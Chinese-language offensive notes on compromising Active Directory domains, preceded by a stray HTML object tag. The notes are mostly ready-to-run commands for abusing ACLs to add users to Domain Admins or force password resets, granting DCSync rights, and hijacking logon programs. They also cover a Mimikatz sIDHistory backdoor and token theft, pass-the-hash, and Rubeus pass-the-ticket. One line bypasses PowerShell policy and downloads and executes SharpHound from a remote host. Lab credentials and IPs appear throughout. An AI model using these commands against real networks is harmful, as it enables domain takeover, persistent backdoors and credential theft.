<object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object>
</body>
</html>
RELAY2LDAP
高权限用户 如果NTLM发起用户在以下用户组
Enterprise admins
Domain admins
Built-in Administrators
Backup operators
Account operators
那么就可以将任意用户拉进该组，从而使该用户称为高权限用户，比如域管
CVE-2019-1040
ACL的利用
一般情况而言，域内的ACL应该不会有特别愚蠢的配置，默认情况下的ACL都是正常的，没有办法可利用，而且改起来也比较复杂，管理员一般是不会动的。但某些正常的设置可以用来形成攻击链，最终获取目标权限，这一点需要配合BH使用。
AddMembers
存在AllExtendedRights, Self, WriteProperty, GenericWrite 或GenericAll时可利用
可以将任意用户，组或计算机添加到目标组。
假设tt用户用户对domain admins组有member权限，那么tt将拥有对域管组写入用户的权限。换一句话说，tt就是域管。
查询domain admins组有哪些member权限
AdFind.exe -users -rb CN="domain Admins" -sc getacl -sddlfilter ;;;member;;
查询tt用户对哪些对象有member权限
AdFind.exe -b "cn=tt,cn=users,dc=exp1,dc=com" memberOf
给tt用户添加域管组的member权限
adfind -users -rb CN=tt -dsq|admod -users -rb CN="Domain Admins" -stdinadd member
Powerview添加
Add-DomainGroupMember方法
将tt用户加入域管组
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'tt'
net group 'Domain Admins' 'user' /add /domain
# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'
# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
linux
# 窗输入密码
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController
# With net and cleartext credentials
net rpc group addmem 'domain admins' a1 -U exp1.com/tt%Aa123123 -S 192.168.14.100
# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
Force-Change-Password
AllExtendedRights、GenericAll
可以在不知道当前目标用户的密码的情况下更改目标用户的密码
查询
AdFind.exe -b "cn=administrator,cn=users,dc=exp1,dc=com" -sc getacl -sddlfilter ;;;password;;
admod更改
admod -b CN=Administrator,CN=Users,DC=exp1,DC=com unicodepwd::123!@#qazwsx -optenc
powerview更改
Set-DomainUserPassword方法
要注意的是，不能直接输入明文密码，需要转换以下字符类型
$pass = ConvertTo-SecureString 'Aa123123' -AsPlainText -Force
Set-DomainUserPassword -Identity tt -AccountPassword $pass
Linux
# 弹窗输入密码
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController
# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController
# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
Dcsync的ACL
DS-Replication-Get-Changes
1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
DS-Replication-Get-Changes-All
1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
对域对象具有这两个扩展权限的用户具备dcsync 权限
AllExtendedRights
执行与对象的扩展Active Directory权限相关联的任何操作。例如，将主体添加到组并强制更改目标用户的密码都是扩展权限的使用示例
WriteDacl
将新ACE写入目标对象的DACL的功能。
例如，攻击者可以向目标对象DACL写入新的ACE，从而使攻击者可以“完全控制”目标对象直接dcsync
使用New-ADObjectAccessControlEntry方法
GenericWrite
更新任何未受保护的目标对象的参数值。例如，更新目标用户对象上的“scriptPath”参数值，可以使该用户在下次登录时运行指定的可执行文件或命令
Powerview使用
Set-DomainObject pc1 -Set @{'mstsinitialprogram'='\\192.168.52.129\share\calc.exe'} -Verbose
WriteOwner
更新目标对象所有者
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
Set the owner of 'dfm' in the current domain to 'harmj0y'.
组策略相关
DC上利用
DC可以控制域内所有计算机的组策略。
输入gpmc.msc，启动组策略管理，界面如下图所示
这里有一个逻辑。组策略对象只是一条一条的规则，这些规则本身不生效，需要把这些规则链接到对象中才会生效。一个对象可以链接多条规则，这里对象最小单位是组织单位，最大是整个林。
当组策略配置生效后，DC会更新组策略应用到自身。
这里可以下发计 划任务
这里可以下发程序，只能是msi的

还有启动脚本
还可以添加域用户到管理员组
非DC上利用
在没有获取DC权限之前，可以用adfind查询组策略的权限，如有配置错误的权限，则可以进行利用。
查询组策略的路径
adfind -b CN=Policies,CN=System,DC=exp1,DC=com -sddl+++ -s subtree -sdna -sddlfilter ;;;gPCFileSysPath;; -recmute gPCFileSysPath
查询GPOname
adfind -b CN=Policies,CN=System,DC=exp1,DC=com -sddl+++ -s subtree -sdna -sddlfilter ;;;gPCFileSysPath;; -recmute displayName
查询权限
icacls \\exp1.com\sysvol\exp1.com\Policies\*

如获取到了可以对GPO有W权限的账号，那么就可以使用工具进行修改
可以使用工具进行下发程序、添加计划任务和启动脚本之类的操作。
Mimikatz
令牌模块
token::whoami：列出当前进程/线程的token信息
token::list：列出当前系统中存在的token
token::elevate：窃取其他用户的token
token::run：利用某用户权限运行指定程序
token::revert：恢复为原来的token
使用TokenTest.exe进行令牌操作，可升权、降权操作。
Intro: A demo written for learning windows access token.
Author: @Loong716
Usage:
TokenTest.exe whoami [/full]
TokenTest.exe list
TokenTest.exe steal <pid> <command> [/interactive | /echo]
SID模块
SID一般由以下组成：
“S”表示SID，SID始终以S开头
“1”表示版本，该值始终为1
“5”表示Windows安全权威机构
“21-1463437245-1224812800-863842198”是子机构值，通常用来表示并区分域
“1128”为相对标识符(RID)，如域管理员组的RID为512
SIDHistory是为了支持域迁移出现的，objectSid和SIDHistory为同类型数据，当一个用户的SIDHistory是其他用户的objectSid时，这个用户就具有其他用户的权限。
修改SIDHistory可用来留后门
sid::lookup
该功能实现SID与对象名之间的相互转换，有三个参数：
/name：指定对象名，将其转换为SID
/sid：指定SID，将其转换为对象名
/system：指定查询的目标计算机
sid::query
该功能支持通过SID或对象名来查询对象的信息，同样有三个参数，使用时指定/sam或/sid，/system可选
/sam：指定要查询对象的sAMAccountName
/sid：指定要查询对象的objectSid
/system：指定查询的目标域控（LDAP）
sid::modify
该功能用于修改一个域对象的SID，可以使用的参数有三个：
/sam：通过sAMAccountName指定要修改SID的对象
/sid：通过objectSid指定要修改SID的对象
/new：要修改对象的新SID
使用该功能是需要先使用sid::patch功能对xxxx进行patch（自然也需要先开启debug特权），需要在域控上执行。
sid::add
该功能用来向一个域对象添加sIDHistoy属性，有两个参数：
/sam：通过sAMAccountName指定要修改的对象
/sid：通过objectSid指定要修改的对象
/new：要修改sIDHistory为哪个对象的SID，该参数可指定目标的sAMAccountName或objectSid，当指定名称时会先调用LookupAccountSid将其转换为SID
使用该功能也要先执行sid::patch，修改时同样是操作LDAP通过ldap_modify_s()修改，不再赘述
利用sIDHistory来留后门
mimikatz # sid::patch
mimikatz # sid::add /sam:a1 /new:administrator
CN=a1,CN=Users,DC=exp1,DC=com
name: a1
objectGUID: {366db2c4-a05a-4617-bd33-789aa90ea20f}
objectSid: S-1-5-21-3280894980-4031048059-2076154112-1106
sAMAccountName: a1
* Will try to add 'sIDHistory' this new SID:'S-1-5-21-3280894980-4031048059-2076154112-500': OK!
mimikatz # sid::query /sam:a1
CN=a1,CN=Users,DC=exp1,DC=com
name: a1
objectGUID: {366db2c4-a05a-4617-bd33-789aa90ea20f}
objectSid: S-1-5-21-3280894980-4031048059-2076154112-1106
sAMAccountName: a1
sIDHistory:
[0] S-1-5-21-3280894980-4031048059-2076154112-500 ( User -- EXP1\Administrator )
sid::clear
该功能用来清空一个对象的sIDHistory属性
/sam：要清空sIDHistory的对象的sAMAccountName
/sid：要清空sIDHistory的对象的objectSid
sid::patch
第一步成功：可使用add
第二步成功：可使用modify
特权利用
SeDebugPrivilege
可以对其他用户进行调试，用于提权
SeBackupPrivilege
可以进行备份操作，对所有文件有读取权限
SeRestorePrivilege
可以进行还原操作，对所有文件有写权限。域内Backup Operators和Server Operators组也有该权限。
SeTakeOwnershipPrivilege
修改任意对象的所有权
SelmpersonatePrivilege
允许该用户运行的程序模拟客户端
SeAssignPrimaryTokenPrivilege
表示可以为进程分配主令牌
SeLoadDriverPrivilege
用来加载或卸载设备的驱动
BloodHound
BH可以自动化搜集域内所有信息，并根据搜集到的信息进行分析，然后提供有效的攻击路径。
安装&启动
详细流程见官方文档。总的就是要装java和neoj4，并且每次启动BH时先要启动neo4j。
启动neoj4
/usr/bin/neo4j console
启动BH，在BH解压目录直接启动
./BloodHound --no-sandbox
neoj4可以安装在vm中，BH平台可以直接在本地电脑中运行，但需要改一下neoj4监听地址。
分析平台
启动BH后，会弹出图形界面。输入neoj4的密码，默认是neoj4/neoj4。
搜集信息
用PS1脚本或EXE搜集，直接运行后，会在当前目录生成一个zip。
使用以下命令绕过powershell策略
PowerShell -Exec Bypass
powershell IEX (New-Object Net.WebClient).DownloadString('http://1.1.1.:8000/SharpHound.ps1');Invoke-BloodHound -CollectionMethod All
SharpHound.exe -c all
分析信息
左侧会显示该对象的各种信息
计算攻击路径
给定一个起点，一个终点，BH会自动为你计算攻击路径。
如下图数据导入完成。右侧是域管，我们的最终目标，左侧是对域管组有memberoff权限的，意思就是可以随意加用户到域管的权限。这些用户一般自己就是域管。

如我们没有左侧用户的权限，可以右键设置以该用户为目标

左上方可以输入已经有权限的普通账号

然后攻击路径就出来了。

看起来很乱，但并非如此。
canrdp，指用户可以登录的机器

has session，指该机器存有右侧用户的会话，可以尝试窃取token或密码

当不知道这一步骤是什么意思或如何利用时，可以右键看一下help，贴心的是，BH甚至帮你把脚本与视频教程都列举出来了。

Rubeus
asktgt模块
用来请求tgt票据，可以使用明文或各种类型hash
申请票据
Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]
实例
rubeus asktgt /user:administrator /password:Aa123123.. /domain:exp1.com /dc:192.168.14.100 /ptt
利用申请的tgt来执行程序
Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec] [/nopac]
实例
rubeus asktgt /user:administrator /password:Aa123123.. /domain:exp1.com /dc:192.168.14.100 /createnetonly:C:\a.exe
Impacket脚本说明
搭一个smb服务
python3 smbserver.py share / -smb2support
使用WQL查询
python3 wmiquery.py exp1/administrator:Aa123123..@192.168.14.100
查询IP
Select IPAddress,Description,DefaultIPGateway,IPSubnet,DNSHostName,DNSDomain,MACAddress from Win32_NetworkAdapterConfiguration
查询域信息
WQL> select Name,Domain,DomainRole,UserName from Win32_ComputerSystem
| Domain | DomainRole | Name | UserName |
| exp1.com | 5 | DC | EXP1\Administrator |
域角色：0-1是PC，2-3是Server，4-5是域控
查询组信息
select * from Win32_Group
查询自启动项目
select * from Win32_StartupCommand
ping一个地址
对比发包和返回包的大小来确定是否ping通
WQL> Select BufferSize,ReplySize from Win32_PingStatus where Address = '192.168.14.2'
| BufferSize | ReplySize |
| 32 | 32 |
查询进程
Select Name,ProcessId,ExecutablePath from Win32_Process
参考
UserAccountControl值参考表
来源http://woshub.com/decoding-ad-useraccountcontrol-value/
自己翻译的，可能不太对
| SCRIPT | 1 | 运行登录脚本 | |:------------------------------:| -------- | ----------------- | | ACCOUNTDISABLE | 2 | 账号已禁用 | | HOMEDIR_REQUIRED | 8 | 依赖家目录 | | LOCKOUT | 16 | 账户已锁定 | | PASSWD_NOTREQD | 32 | 不需密码 | | PASSWD_CANT_CHANGE | 64 | 用户不能更改密码 | | ENCRYPTED_TEXT_PWD_ALLOWED | 128 | 使用可逆加密存储密码 | | TEMP_DUPLICATE_ACCOUNT | 256 | 用户的帐户，其主要帐户在另一个域中 | | NORMAL_ACCOUNT | 512 | 默认帐户，典型的活动帐户 | | INTERDOMAIN_TRUST_ACCOUNT | 2048 | 域间信任 | | WORKSTATION_TRUST_ACCOUNT | 4096 | 工作组信任 | | SERVER_TRUST_ACCOUNT | 8192 | 服务器信任 | | DONT_EXPIRE_PASSWORD | 65536 | 密码未过期的用户帐户 | | MNS_LOGON_ACCOUNT | 131072 | 要登录网络，用户需要智能卡 | | SMARTCARD_REQUIRED | 262144 | 需要智能卡 | | TRUSTED_FOR_DELEGATION | 524288 | 非约束委派 | | NOT_DELEGATED | 1048576 | | | USE_DES_KEY_ONLY | 2097152 | 仅使用DES密码 | | DONT_REQ_PREAUTH | 4194304 | 不需要Kerberos预身份验证 | | PASSWORD_EXPIRED | 8388608 | 用户密码已过期 | | TRUSTED_TO_AUTH_FOR_DELEGATION | 16777216 | 约束委派 | | PARTIAL_SECRETS_ACCOUNT | 67108864 | 受保护的账户 |
普通ACE的缩写参考
| 缩写 | 全称 | 意义 | | ------------- |:------------- | --- | | FC | full rights | 所有 | | CR CHILD | create child | 新建 | | DEL CHILD | delete child | 删除 | | LIST CHILDREN | list children | 查看 | | SELF WRT | | 写入 | | READ PROP | | 读 | | | | |
后续再补充补充。
/id：指定目标token的TokenID
/domainadmin：窃取域管的token
/enterpriseadmin：窃取企业管理员的token
/admin：窃取本地管理员的token
/localservice：窃取Local Service权限的token
/networkservice：窃取Network Service权限的token
/system：窃取SYSTEM权限的token